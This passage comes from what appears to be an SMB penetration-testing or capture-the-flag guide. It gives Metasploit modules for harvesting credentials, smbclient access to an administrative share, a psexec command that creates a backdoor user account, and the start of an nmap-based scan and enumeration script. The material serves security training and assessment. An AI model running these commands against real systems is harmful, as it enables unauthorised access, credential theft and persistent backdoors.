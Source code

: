 ```bash
use post/windows/gather/enum_logged_on_users
use post/windows/gather/credentials/credentials_collector
set SESSION 1
exploit
```

**Operational Benefits:**
- **Systematic Approach:** Methodical exploitation of highest-value targets
- **Persistence:** Maintain access for ongoing assessment activities
- **Intelligence Collection:** Gather additional credentials and system information
- **Lateral Movement:** Use compromised systems for further network access

### **🔧 Integration with Manual Tools:**

```bash
# Combine automated and manual approaches
# Step 1: Automated discovery
nmap --script smb-vuln-* target_range

# Step 2: Manual verification
smbclient -L //target_ip -U username%password
# Verify share access manually

# Step 3: File system exploration
smbclient //target_ip/C$ -U Administrator%password
smb: \> dir
smb: \> get flag.txt

# Step 4: Advanced exploitation
use auxiliary/admin/smb/psexec_command
set RHOSTS target_ip
set SMBUser Administrator
set SMBPass password
set COMMAND "net user backdoor password123 /add"
exploit
```

### **⚙️ Automation Script for Efficiency:**

```bash
#!/bin/bash
# smb_assessment_automation.sh - Comprehensive SMB security assessment

TARGET_RANGE=$1
LOGFILE="smb_assessment_$(date +%Y%m%d_%H%M%S).log"

echo "[+] Starting SMB security assessment for $TARGET_RANGE" | tee $LOGFILE

# Phase 1: Network Discovery
echo "[+] Phase 1: SMB service discovery" | tee -a $LOGFILE
nmap -sS -p 139,445 --open $TARGET_RANGE > smb_discovery.txt
SMB_HOSTS=$(grep "Nmap scan report" smb_discovery.txt | awk '{print $5}')

echo "[+] SMB hosts identified: $(echo $SMB_HOSTS | wc -w)" | tee -a $LOGFILE

# Phase 2: Service Enumeration
echo "[+] Phase 2: SMB service enumeration" | tee -a $LOGFILE
for host in $SMB_HOSTS; do
    echo "[+] Enumerating $host" | tee -a $LOGFILE
    nmap --script smb-protocols,smb-enum-shares $host >> smb_enum_$host.txt
done

# Phase 3: Automated Credential Testing
echo "[+] Phase 3: Credential assessment" | tee -a $LOGFILE
```